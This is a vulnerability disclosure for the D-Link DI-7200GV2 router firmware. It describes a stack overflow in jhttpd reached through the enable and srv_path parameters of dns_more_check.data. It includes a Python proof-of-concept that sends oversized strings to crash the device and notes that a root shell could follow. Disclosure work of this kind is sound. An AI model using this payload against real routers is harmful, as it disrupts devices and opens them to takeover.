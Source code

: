 # Affected Version
D-Link device DI-7200GV2 v21.04.09E1
# Vulnerability Description
D-Link device DI-7200GV2 v21.04.09E1 was discovered to contain a stack overflow via parameters enable and srv_paath in the dns_more_check.data.

# Firmware download address
Manufacturer's address: https://www.dlink.com/  
Firmware download address: http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-7000G+V2%e7%b3%bb%e5%88%97

# Vulnerability Details
First, set the nvram value of dns_more_check_en in the jhttpd binary at function sub_47B06C() via dns_more_check.data.
![Alt text](1.png)
Then, the function dns_more_check_data() retrives the value of 'dns_more_check_en' from nvram.Finally,the value of 'dns_more_check_en' from nvram is concatenated to the sprintf function, which leads to a buffer overflow vulnerability.  
![Alt text](2.png) 

# Recurring vulnerabilities and POC
First, we boot the image via FirmAE.  
![Alt text](3.png)
Then,we login in to 192.168.0.1.  
![Alt text](4.png) 
Finally, we send the following poc:  
<pre>
import requests
from requests import exceptions
url = "http://192.168.0.1/dns_more_check.data"

params = {
    "enable": "a"*0x1400,
    "srv_path": "a"*0x1400
}

headers = {
    "Host": "192.168.0.1",
    "Upgrade-Insecure-Requests": "1",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "en-US,en;q=0.9",
    "Connection": "close"
}

response = requests.get(url, params=params, headers=headers)
print(response)
</pre>

![Alt text](5.png)

And you can write your own exp to get the root shell.